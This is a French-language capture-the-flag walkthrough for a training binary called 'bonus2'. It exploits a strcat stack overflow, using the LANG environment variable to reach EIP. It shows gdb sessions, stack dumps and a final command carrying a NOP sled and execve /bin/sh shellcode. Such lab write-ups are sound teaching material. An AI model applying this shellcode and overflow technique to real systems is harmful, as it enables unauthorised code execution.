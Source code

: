 bonus2:
Ici, deux fonctions, main et greetuser. On ne voit pas de shell admin donc il va falloir run son propre shellcode.

On remarque que deux arguments sont demandés. Ils sont strncpy dans un buffer, 40 pour le premier, 32 pour le deuxième, dans un buffer de 72 donc pas d'overflow possible ici. Par contre, plus loin ce même buffer est strcat a un autre buffer qui fait seulement 64. La faille se situe ici.

Si on essaie de remplir au max notre buffer de 72, on voit qu'on n'arrive pas à override EIP.

```
gdb bonus2
r $(python -c 'print "A" * 40') Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab

Starting program: /home/user/bonus2/bonus2 $(python -c 'print "A" * 40') Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2AAAAAAAAAAAAAAAAAAAAAAAAAAAA
Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab

Program received signal SIGSEGV, Segmentation fault.
0x08006241 in ?? () // aucun match ici
```

On peut cependant changer la variable d'environnement LANG (export LANG) pour avoir une salutation plus longue ("Goedemiddag! " vs "Hello " c'est 14 au lieu de 7). 

```
(gdb) r $(python -c 'print "A" * 40') Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab
Starting program: /home/user/bonus2/bonus2 $(python -c 'print "A" * 40') Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab
Goedemiddag! AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab

Program received signal SIGSEGV, Segmentation fault.
0x38614137 in ?? () // = 23eme position
```

Effectivement, donc si LANG= nl, offset est a 23

Il reste juste à injecter notre shellcode avec un nopsled, et faire pointer EIP quelque part après l'addresse de notre buffer[72].

Pour trouver l'adresse du buffer on met un breakpoint juste après strncpy, on run avec plein de NOP et on remonte $esp jusqu'à voir plein de 90:

```
disass main
[...]
0x08048577 <+78>:    call   0x80483c0 <strncpy@plt>
   0x0804857c <+83>:    mov    0xc(%ebp),%eax
   0x0804857f <+86>:    add    $0x8,%eax
   0x08048582 <+89>:    mov    (%eax),%eax
   0x08048584 <+91>:    movl   $0x20,0x8(%esp)
   0x0804858c <+99>:    mov    %eax,0x4(%esp)
   0x08048590 <+103>:   lea    0x50(%esp),%eax
   0x08048594 <+107>:   add    $0x28,%eax
   0x08048597 <+110>:   mov    %eax,(%esp)
   0x0804859a <+113>:   call   0x80483c0 <strncpy@plt>
   =>0x0804859f <+118>:   movl   $0x8048738,(%esp)
[...]
b *0x0804859f 
r $(python -c 'print "\x90" * 100) $(python -c 'print "\x90" * 100)
x/120x $esp
0xbffff640:     0xbffff6b8      0xbffff8f5      0x00000020      0xb7fff918
0xbffff650:     0x00000000      0x00000000      0x00000000      0xb7fd0ff4
0xbffff660:     0xbffff6ae      0xbffff6af      0x00000001      0xb7ec3c49
0xbffff670:     0xbffff6af      0xbffff6ae      0x00000000      0xb7ff3fec
0xbffff680:     0xbffff734      0x00000000      0x00000000      0xb7e5ec73
=> 0xbffff690:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff6a0:     0x90909090      0x90909090      0x90909090      0x90909090
```

0xbffff690 + 16 = 0xbffff6a0
on peut essayer de faire pointer EIP sur \xa0\xf6\xff\xbf

Notre shellcode fait 28 caractères, et on veut une nopesled la plus grande possible donc on va le séparer en deux pour avoir 23 caractères dans la 2ème string (afin d'atteindre EIP).


./bonus2 $(python -c 'print "\x90" * 35 + "\x31\xc0\x50\x68\x2f"') $(python -c 'print "\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "\xaa\xf6\xff\xbf"')

Ca marche dans gdb mais pas en vrai parce qu'il y a des décalages d'adresse, on essaie en augmentant et en baissant et au final ça marche si on utilise 0xbffff680 and below (marche avec 62 par exemple)

La commande finale est
`./bonus2 $(python -c 'print "\x90" * 35 + "\x31\xc0\x50\x68\x2f"') $(python -c 'print "\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "\x80\xf6\xff\xbf"')`